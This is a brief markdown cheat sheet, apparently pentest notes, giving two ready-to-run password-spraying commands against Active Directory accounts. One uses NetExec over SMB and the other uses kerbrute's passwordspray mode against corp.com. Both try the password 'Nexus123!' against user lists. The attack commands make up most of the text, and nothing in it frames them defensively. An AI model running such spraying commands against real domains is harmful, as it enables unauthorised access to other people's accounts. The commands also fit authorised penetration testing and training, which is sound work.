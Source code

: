 # SMB Password Spraying
Sprays user accounts with "Nexus123!" password
```bash
nxc smb $(ANY_DOMAIN_JOINED_MACHINE_IP) -u users.txt -p 'Nexus123!' -d $(DOMAIN) --continue-on-success
```
# TGT Password Spraying
https://github.com/ropnop/kerbrute

Kerbrute can be run on windows or linux. This example ruins on windows to spray usernames with the password "Nexus123!".
```powershell
.\kerbrute_windows_amd64.exe passwordspray -d corp.com .\usernames.txt "Nexus123!"
```
